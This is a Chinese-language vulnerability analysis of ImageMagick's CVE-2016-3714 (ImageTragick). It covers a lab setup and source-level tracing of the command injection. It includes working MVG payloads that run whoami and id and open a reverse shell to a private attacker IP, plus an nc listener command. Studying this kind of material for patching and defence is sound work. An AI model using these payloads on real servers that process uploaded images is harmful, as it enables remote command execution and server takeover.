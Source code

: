 # ImageMagick远程代码执行漏洞分析 #

![imagemagick](文档/imagemagick.png)

## 1.&emsp;漏洞描述 ##

* 漏洞编号： CVE-2016-3714
* 发现人员： Slack安全工程师Ryan Hube
* 漏洞简述： 产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。
* 影响版本： 
	* ImageMagick6.5.7-8 2012-08-17
	* ImageMagick6.7.7-10 2014-03-06
	* 低版本至6.9.3-9 released 2016-04-30 

## 2.&emsp;漏洞分析 ##

### 2.1&emsp;漏洞介绍 ###

&emsp;&emsp;ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、 PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

&emsp;&emsp;产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

&emsp;&emsp;据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。

### 2.2&emsp;漏洞环境搭建 ###

1. 首先我们需要一台Linux虚拟机（这里我用的是Ubuntu14.04）
2. 找到相应的有漏洞的ImageMagick版本源码进行源码安装**注意：这个进行源码安装时可能会存在安装时先安装他的依赖包否则安装会报错**
3. 安装完成，使用命令`convert -version`查看安装是否成功，并且查看版本是否正确![imagemagick](文档/1.png)
4. 要实现远程代码执行，还需要自己搭建一个服务器
5. 安装Apache+php，实现一个上传图片的网站，同时调用imagemagick的convert命令实现缩略图功能。

### 2.3&emsp;漏洞验证 ###
#### 2.3.1&emsp;本地代码执行验证 ####

漏洞利用POC：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://evalbug.com/"|whoami")'
	pop graphic-context

把POC代码编辑到poc.png图片中，然后执行convert命令：

	 convert poc.png 1.png

查看返回结果：
![imagemagick](文档/2.png)
可以看到命令`whoami`已经执行并且返回出了结果。同理可以把whoami换成其他你想执行的任意命令。

#### 2.3.2&emsp;远程代码执行验证 ####

1. 访问自己搭建的上传图片网站进行上传图片操作
![imagemagick](文档/3.png)

2. 构造反弹shell命令POC:
	
		push graphic-context
		viewbox 0 0 640 480
		fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.79/2333 0>&1")'
		pop graphic-context"
3. 将POC存入test.png图片中，进行图片上传操作，同时在你的攻击机（192.168.1.79）中输入命令`nc -ll -v -p 2333`对2333端口进行监听
4. 上传图片查看shell是否已经反弹

![imagemagick](文档/4.png)

## 3.&emsp;CVE-2016-3714漏洞分析 ##

### 3.1&emsp;源代码分析 ###

&emsp;&emsp;在ImageTragick中，众所周知，其实被处理的文件并不是一个图片，而是一段被IMK处理的“脚本”。在软件中对fill关键字的处理如下：
![imagemagick](文档/5.png)

可以看到该处在进行了一系列判断后，调用了ReadImage函数，此时：
![imagemagick](文档/6.png)

从图中可以看出，drawImage传给ReadImage的参数还仍然是我们定义的参数字符串，

在文件magick/consititute.c中的352-767行定义了ReadImage函数，而该函数中在523行调用了InvokeDelegate函数：
![imagemagick](文档/7.png)

同时在Ubuntu图中，可以看到该处调用INVOKEDELEGATE函数时的参数中，把开头的https给去掉了。InvokeDelegate函数定义在magick/delegate.c中的1075-1327行，其中可看到代码又调用了ExternalDelegateCommand函数：
![imagemagick](文档/8.png)

从Ubuntu图中可看到传给ExternalDelegateCommand函数中的command参数已经变成了拼接后的字符串，并且是一个完整的管道符号链接的两条命令。往上看代码可发现command参数主要是InterpretImageProperties函数的返回值，而InterpretImageProperties函数只是负责把传入的字符串的特殊字符进行转义、外加字符串处理（比如对%exif %filename %basename等字符串的处理，产生类似正则表达式引擎的效果）。
![imagemagick](文档/9.jpg)

这里，会来到一个比较有意思的地方：

![imagemagick](文档/10.png)

该处会调用GetMagickPropertyLetter函数，我们跟进去看一下：
![imagemagick](文档/11.jpg)

也就是该函数会对传进来的字符返回特定的字符串。在KALI图中已经看到，传递进来的参数是：curl –s –k –L –o “xxx” https://%M，所以这里要替换的就是大写M：

![imagemagick](文档/12.png)

可看到这里是直接返回了image->magick_filename，其实就是那串没了https:开头的URL，所以返回给GetMagickPropertyLetter函数的就是URL，而后如图所GetMagickPropertyLetter函数直接把返回内容AppendString2Text了。


**这就真的是直接拼接出来了带有恶意命令的字符串，所以其实自始至终都没有一个对字符串的过滤操作。**


当从InterpretImageProperties函数返回后，就进入了ExternalDelegateCommand函数，而参数也已经是注入了额外命令的CURL字符串。
![imagemagick](文档/13.png) 

在ExternalDelegateCommand函数内，command会被直接system执行起来而导致命令注入。


另外，在InterpretImageProperties函数的代码中，可以看到对&lt &gt等做出了处理，将实体字符转义为原字符，所以在其他的处理脚本委托时，不排除引起跨站的可能性。并且在代码中，还发现MP4也是相同的函数引用路径对MP4文件的URL进行获取数据，所以MP4那个利用原理相同。另外，**代码中还发现很多方式的委托相互交叉引用，相信还有其他的利用方式，有待发掘。**

### 3.2&emsp;漏洞利用点 ###

所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

	push graphic-context
	viewbox 0 0 640 480
	fill 'url(https://"|id; ")'
	pop graphic-context

这样，ImageMagick在正常执行图片转换、处理的时候就会触发漏洞。

## 4.&emsp;参考资料 ##

* [ImageMagick 命令执行漏洞 (ImageTragick)](https://www.seebug.org/vuldb/ssvid-91446 "https://www.seebug.org/vuldb/ssvid-91446")
* [[深度技术分析] ImageTragick漏洞原理](http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd "http://mp.weixin.qq.com/s?__biz=MzAwNDE4Mzc1NA==&mid=503340500&idx=1&sn=00b91865cd38d402571ffc6deeb04269&scene=23&srcid=0507KTeMDHh4Hq2A9lMrPhrR#rd")
* [CVE-2016-3714ImageMagick远程执行漏洞修复建议](http://bobao.360.cn/learning/detail/2862.html "http://bobao.360.cn/learning/detail/2862.html")
* [ImageMagick（CVE-2016-3714）执行过程，漏洞分析以及修复方案](http://www.freebuf.com/vuls/104048.html "http://www.freebuf.com/vuls/104048.html")

